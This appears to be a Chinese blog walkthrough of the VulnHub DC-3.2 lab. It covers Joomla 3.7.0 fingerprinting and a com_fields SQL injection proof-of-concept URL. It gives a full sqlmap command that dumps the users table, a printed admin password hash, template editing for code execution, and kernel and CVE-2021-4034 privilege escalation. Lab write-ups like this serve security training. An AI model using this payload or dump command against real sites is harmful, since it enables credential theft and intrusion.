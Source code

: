 +++
ShowToc = true
TocOpen = true
title = '0x024 DC 3.2'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



开机遇到报错，修改以下配置：

![](/vulnhub_img/WEBRESOURCE4cd164de68cafa73ead52528439ebda6截图.png)

# 端口扫描

![](/vulnhub_img/WEBRESOURCEc724cd1c56a1136f76aef7ed843bc672截图.png)

![](/vulnhub_img/WEBRESOURCE936ff0c59005305217e93f18889523ef截图.png)

# 渗透

![](/vulnhub_img/WEBRESOURCEe03763fdd8beb0e52b175e5097d00217截图.png)

使用joomale cms，通过joomla扫描发现版本和组件，可能存在已知漏洞：

joomscan.pl扫描结果，版本号为3.7.0

![](/vulnhub_img/WEBRESOURCEadd720ccfc02d6865b640a40a1c3d915截图.png)

JoomlaScan扫描结果，以下为相关组件：

![](/vulnhub_img/WEBRESOURCE1a265df724d312d3851b0e701efab813截图.png)

POC如下：

/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x3e,user()),0)

![](/vulnhub_img/WEBRESOURCE22b3fac5c697ab4833d62cd183a19882截图.png)

sqlmap查账号密码，过程非常复杂，贴上最后的命令：

```
sqlmap -u "http://192.168.1.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=xxx" -D joomladb -T '#__users' -C name,email,id,params,password,username --dump
```

![](/vulnhub_img/WEBRESOURCE23bd1c50cc4d1fd1d621d2abe8aef309截图.png)

admin  | freddy@norealaddress.net | 629 | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu | admin

查询cmd5网站：

付费记录：

![](/vulnhub_img/WEBRESOURCEd66874bd5bc5c4ef2a4254136e2df059截图.png)

john默认字典就跑出来了，就这还想要我的钱？

![](/vulnhub_img/WEBRESOURCE35902ccbbe3e3a0dea4a732d5ff1d18e截图.png)

修改模板：

![](/vulnhub_img/WEBRESOURCE5843a4d128f3583d5e934dbc1ba05f42截图.png)

但是这里不知道为啥，访问error.php访问不到，我直接改了index.php，然后访问主页就可以了，实战建议自己添加一个php文件：

![](/vulnhub_img/WEBRESOURCE90aa0d2e451366346e5467dbcc84d028截图.png)

# 提权：

有GCC，可以考虑内核提权：

小插曲，内核提权有风险，机器打崩了

这脏牛就没成功过，离谱：

![](/vulnhub_img/WEBRESOURCEe6ab3817b26b881ff584c4312bfe5ee2截图.png)

2021-4034是真的好用：

![](/vulnhub_img/WEBRESOURCEdbe123b2aa2919afa1c94e8aecfb578c截图.png)

![](/vulnhub_img/WEBRESOURCEe15544377e89ac3397ee734f7e9b8c06截图.png)